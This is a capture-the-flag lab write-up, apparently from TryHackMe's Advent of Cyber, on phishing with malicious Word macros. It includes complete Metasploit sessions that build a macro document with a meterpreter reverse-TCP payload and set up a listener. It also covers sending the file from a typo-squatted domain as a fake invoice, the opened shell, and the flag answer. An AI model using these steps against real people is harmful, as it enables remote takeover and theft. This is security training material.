

# Day 10 - Phishing (Malicious Macro)



## Background

Marta May Ware’s system was compromised despite strong security measures. McSkidy traced the attacker to Mayor Malware, who used a phishing attack. McSkidy's quick response prevented significant damage.

### Task

Conduct a **security assessment** for Marta May Ware to:

- Improve her cybersecurity defenses.
- Increase awareness about phishing and social engineering.

### Concern

Glitch recommends McSkidy to run a **phishing exercise** to test Marta May Ware's vigilance against such attacks.

---

## Phishing Attacks

### Overview

- **Phishing**: A form of social engineering where attackers exploit human vulnerabilities.
- Attackers craft messages with urgency to manipulate victims into:
    - Filling out forms.
    - Opening files.
    - Clicking on malicious links.

### Typical Phishing Scenario

1. Victim receives an urgent email (e.g., a fake charge notice).
2. Victim opens an attached malicious file or clicks on a link.
3. Malicious actions are triggered, giving attackers control of the victim's system.

---

## Macros in Malware

### What are Macros?

- **Definition**: Automated instructions in MS Office to perform repetitive tasks.
- **Usage**: Saves time, e.g., converting numbers to words.

### Macros in Cybersecurity

- Attackers exploit macros by embedding malicious code.
- Macros can be programmed to execute payloads and grant attackers remote control.

---

## Attack Plan

1. **Create** a malicious Word document with an embedded macro.
2. **Listen** for incoming connections on the attacker's system.
3. **Email** the malicious document to the target.
4. **Target Opens Document**: The macro executes, connecting the victim’s machine to the attacker.
5. **Gain Control**: The attacker establishes a reverse shell and gains remote access.

### Technical Steps for the Attack

### Attacker's System Setup

### Creating the Malicious Document

The first step involves embedding a malicious macro within a Word document. The **Metasploit Framework** can streamline this process by automating the creation of a document with an embedded macro.

### Steps to Create the Malicious Document

- Open a new terminal window and run `msfconsole` to start the Metasploit Framework
- `set payload windows/meterpreter/reverse_tcp` specifies the payload to use; in this case, it connects to the specified host and creates a reverse shell
- `use exploit/multi/fileformat/office_word_macro` specifies the exploit to be used. This is a module to create a document with a macro
- `set LHOST CONNECTION_IP` specifies the IP address of the attacker’s system, `CONNECTION_IP` in this case is the IP of the AttackBox
- `set LPORT 8888` specifies the port number you are going to listen on for incoming connections on the AttackBox
- `show options` shows the configuration options to ensure that everything has been set properly, i.e., the IP address and port number in this example
- `exploit` generates a macro and embeds it in a document
- `exit` to quit and return to the terminal

```bash
          
root@AttackBox:~# msfconsole 
[...]
Metasploit Documentation: https://docs.metasploit.com/

msf6 > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 > use exploit/multi/fileformat/office_word_macro
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/fileformat/office_word_macro) > set LHOST CONNECTION_IP
LHOST => CONNECTION_IP
msf6 exploit(multi/fileformat/office_word_macro) > set LPORT 8888
LPORT => 8888
msf6 exploit(multi/fileformat/office_word_macro) > show options

Module options (exploit/multi/fileformat/office_word_macro):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CUSTOMTEMPLATE                   no        A docx file that will be used as a template to build the exploit
   FILENAME        msf.docm         yes       The Office document macro file (docm)

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     CONNECTION_IP    yes       The listen address (an interface may be specified)
   LPORT     8888             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**

Exploit target:

   Id  Name
   --  ----
   0   Microsoft Office Word on Windows

View the full module info with the info, or info -d command.

msf6 exploit(multi/fileformat/office_word_macro) > exploit

[*] Using template: /opt/metasploit-framework/embedded/framework/data/exploits/office_word_macro/template.docx
[*] Injecting payload in document comments
[*] Injecting macro and other required files in document
[*] Finalizing docm: msf.docm
[+] msf.docm stored at /root/.msf4/local/msf.docm
msf6 exploit(multi/fileformat/office_word_macro) > exit   
```

**The Created Macro-Enabled Document**


1. `AutoOpen()` triggers the macro automatically when a Word document is opened. It searches through the document’s properties, looking for content in the “Comments” field. The data saved using `base64` encoding in the Comments field is actually the payload.
2. `Base64Decode()` converts the payload to its original form. In this case, it is an executable MS Windows file.
3. `ExecuteForWindows()` executes the payload in a temporary directory. It connects to the specified attacker’s system IP address and port.

The “comments” field shown here contains about a 100K characters:


On copying this into a text file and then decoding the base64 data and saving it as an executable, we are able to see the difference in file sizes:

```bash
          
root@AttackBox:~# base64 -d payload-base64.txt > payload.exe
root@attackbox:~# ls -lh
-rw-r--r--. 1 root root 97K payload-base64.txt
-rw-r--r--. 1 root root 73K payload.exe
      
```


**Listening for Incoming Connections**

We can use `metasploit` to set up the listener on the attacker’s machine, using the following steps:

- Open a new terminal window and run `msfconsole` to start the Metasploit Framework
- `use multi/handler` to handle incoming connections
- `set payload windows/meterpreter/reverse_tcp` to ensure that our payload works with the payload used when creating the malicious macro
- `set LHOST CONNECTION_IP` specifies the IP address of the attacker’s system and should be the same as the one used when creating the document
- `set LPORT 8888` specifies the port number you are going to listen on and should be the same as the one used when creating the document
- `show options` to confirm the values of your options
- `exploit` starts listening for incoming connections to establish a reverse shell

```bash
          
root@AttackBox:~# msfconsole 
[...]
Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST CONNECTION_IP
LHOST => CONNECTION_IP
msf6 exploit(multi/handler) > set LPORT 8888
LPORT => 8888
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     CONNECTION_IP    yes       The listen address (an interface may be specified)
   LPORT     8888             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on CONNECTION_IP:8888 
```

### **Email the Malicious Document**

## Sending the Malicious Document

The malicious document is ready to be sent to the target user. Follow these steps:

1. **Target User Details**:
    - Email: `marta@socmas.thm`
2. **Next, log in using the Attacker Credentials given in the challenge**
3. **Typo-squatting Technique**:
    - The attacker uses a fake domain (`socnas.thm`) similar to the legitimate one (`socmas.thm`) to trick the target.
4. **Steps to Send the Email**:
    - On the **AttackBox**, open Firefox and go to `http://MACHINE_IP`.
    - Log in using the provided attacker credentials.
        
        
        
    - Compose an email to the target user.
    - Attach the malicious document. Rename the file to something convincing (e.g., `invoice.docm` or `receipt.docm`).
        
        
        
    - Include a brief, persuasive message to encourage the target to open the attachment.
        
        
        
5. **Uploading the File**:
    - Use `CTRL+H` in the file upload dialog to access the `.msf4` directory where the malicious document is saved.

By completing these steps, the malicious document will be successfully delivered to the target.

If all the steps are followed correctly and everything works as expected, we will get a reverse shell in a couple of minutes:

```bash
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.130.204:8888 
[*] Sending stage (176198 bytes) to 10.10.103.92
[*] Meterpreter session 1 opened (10.10.130.204:8888 -> 10.10.103.92:52536) at 2024-11-24 16:37:47 +0300
meterpreter > cd c:/users/Administrator/Desktop
meterpreter > ls
[...]
meterpreter > 
```

---

## Questions

1. What is the flag value inside the `flag.txt` file that’s located on the Administrator’s desktop?
    
    
    
    
    Ans.: **THM{PHISHING_CHRISTMAS}**
